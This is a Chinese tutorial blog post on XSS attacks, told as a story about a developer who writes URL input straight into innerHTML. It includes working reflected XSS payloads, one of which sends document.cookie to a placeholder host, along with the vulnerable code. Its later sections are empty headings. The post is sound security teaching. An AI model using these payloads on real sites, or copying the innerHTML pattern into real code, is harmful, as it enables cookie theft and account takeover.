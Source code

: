 ```yaml
---
layout: post
title: 前端安全指北：XSS攻击
date: 2019-05-10
categories: blog
header-color: "#678"
tags: [js]
---
```


### 今日说法

程序员杨天宝开发了一个页面，用于展示用户输入的数据：

[dev.cabeza.cn/security/xss.html?a=坤坤](http://dev.cabeza.cn/security/xss.html?a=坤坤)

看起来没什么问题 😀

某日，杨天宝接到了一串神秘网址:

<a href="http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM$L%27)%22%3E">dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM\$L%27)%22%3E</a>

点开后，页面弹出了写着粗鄙之语的弹出框

杨天宝又接到了一串神秘网址：

[dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E](<http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E>)

`注：该页面已经提前埋下了值为'password=ikun'的测试性cookie`

这时如果你打开浏览器的控制台，就会发现已经朝http://www.xxx.com/cookie这个地址发送了请求，并且携带了自己的cookie

    http://www.xxx.com/cookie?c=password=ikun

想想攻击者拿到用户 cookie 意味着什么，杨天宝已经倒吸一口凉气了

### 案情分析

这是杨天宝开发的页面内容：

```html
<html lang="en">
  <head> </head>
  <body>
    <div id="test"></div>
    <h1>我喜欢唱跳rap还有篮球</h1>
  </body>
  <script>
    // 从url参数中取值
    let a = getQueryString("a");
    document.querySelector("#test").innerHTML = a;
  </script>
</html>
```

杨天宝过分信任用户的输入，没有做任何防范。

上面的例子中，黑客的攻击语句分别为

    <img src="" onerror="javascript:alert('NM$L')">

    <img src="" onerror="document.body.appendChild(document.createElement('img')).setAttribute('src','http://www.xxx.com/cookie?c='+document.cookie);">

当这些恶意语句没有经过过滤注入到页面 HTML 中时，其中的 js 代码便会执行，实现达到窃取用户信息的目的

**这就是 XSS 攻击**

### XSS 的定义

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

为了不和层叠样式表（Cascading Style Sheets, CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS

### XSS 的分类

根据攻击手段的不同，xss 可以分为

- 存储型 XSS
- 反射型 XSS
- DOM 型 XSS

### XSS 的预防

### XSS 攻击案例

### 总结